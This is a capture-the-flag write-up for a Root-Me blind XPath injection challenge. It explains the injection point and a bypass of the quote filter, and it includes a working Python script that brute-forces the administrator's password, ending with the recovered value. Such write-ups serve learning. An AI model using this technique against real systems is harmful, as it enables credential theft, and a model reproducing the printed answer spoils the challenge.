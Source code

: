 #XPath injection - Blind

Based on the Challenge Name, you can see that we will use Blind XPath Injection to solve this problem. You can read more about Blind XPath Injection [here](https://owasp.org/www-community/attacks/Blind_XPath_Injection)

Firstly, the injection point is at the Members section.

![anh1](https://live.staticflickr.com/65535/51834116972_b840cea7e2_z.jpg)

when you access this section and click on any member in the table, the url will look like this: *http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2*

The injection point is the `userid` parameter. You can check by enter `or` operator (|), an error will occur. We can use this to check if our conditional expression is true or not and achive our goal. If our exploit code is true, the page will not display any error. If not, we will see the error sceen. We will use this to blind Xpath Injection

And now we know where should we exploit. I will use it to check for John's password length because he is administrator. 

After check his password length with my exploit code (I will show it at the end of this writeup), i see that John's password length is 14. But after brute-force John's password, its length is actually 13 and I don't know why @@

And now we know that the password length is 13, we can bruteforce the password. But when you use the substring function with single quote or double quote, you will see that they are filter.

Seeing that the single quote and double quotes is filter. Now I'm stuck @@ But after searching about it on Google, I see a way to bypass this filter. You can use substring function and extract many character from the table in Members section, although it's not enough character compare with the alphabet, but it's useful for this challenge.

This is my code to exploit this challenge:

```python

import requests
import string
import os

pw_len = 0
pw = ""
url = "http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2 and "
for i in range (1,100):
	print("i=" + str(i))
	final_url = url + "string-length(//user[userid=2]/password)=" + str(i)
	res = requests.get(url=final_url)
	if "John's profile" in res.text:
		os.system("clear")
		pw_len = i
		print("Password length is: " + str(i))
		break
	elif i==100:
		print("An error occur!")
#pw length is actually 13, not 14 and I dont know how @@
candidate = {"a": "substring(//user[userid=2]/account,1,1)",
        "b": "substring(//user[userid=1]/account,3,1)",
        "c": "substring(//user[userid=1]/account,5,1)",
        "d": "substring(//user[userid=2]/account,2,1)",
        "e": "substring(//user[userid=1]/account,9,1)",
        "g": "substring(//user[userid=2]/email,12,1)",
        "h": "substring(//user[userid=2]/email,3,1)",
        "i": "substring(//user[userid=3]/username,3,1)",
        "l": "substring(//user[userid=5]/username,2,1)",
        "m": "substring(//user[userid=2]/account,3,1)",
        "n": "substring(//user[userid=2]/username,4,1)",
        "o": "substring(//user[userid=2]/username,2,1)",
        "r": "substring(//user[userid=3]/username,2,1)",
        "s": "substring(//user[userid=1]/email,1,1)",
        "t": "substring(//user[userid=1]/email,2,1)",
        "u": "substring(//user[userid=3]/account,2,1)",
        "v": "substring(//user[userid=1]/username,4,1)",
        "y": "substring(//user[userid=4]/username,5,1)",
        "S": "substring(//user[userid=1]/username,1,1)",
        "J": "substring(//user[userid=2]/username,1,1)",
        "E": "substring(//user[userid=3]/username,1,1)",
        "@": "substring(//user[userid=3]/email,4,1)",
        ".": "substring(//user[userid=3]/email,8,1)",
	"0":"string(0)",
	"1":"string(1)",
	"2":"string(2)",
	"3":"string(3)",
	"4":"string(4)",
	"5":"string(5)",
	"6":"string(6)",
	"7":"string(7)",
	"8":"string(8)",
	"9":"string(9)"
}
for j in range(1,14):
	print("j=" + str(j))
	for key in candidate:
		print("Current key: " + key)
		final_url2 = url + "substring(//user[userid=2]/password," + str(j) + ",1)=" + candidate[key]
		res = requests.get(url = final_url2)
		if "John's profile" in res.text:
			pw += key
			os.system("clear")
			print("Current string: " + pw)
			break
os.system("clear")
print("Password of admin is: " + pw)
#password is ueiJ4a65@1.oS

```
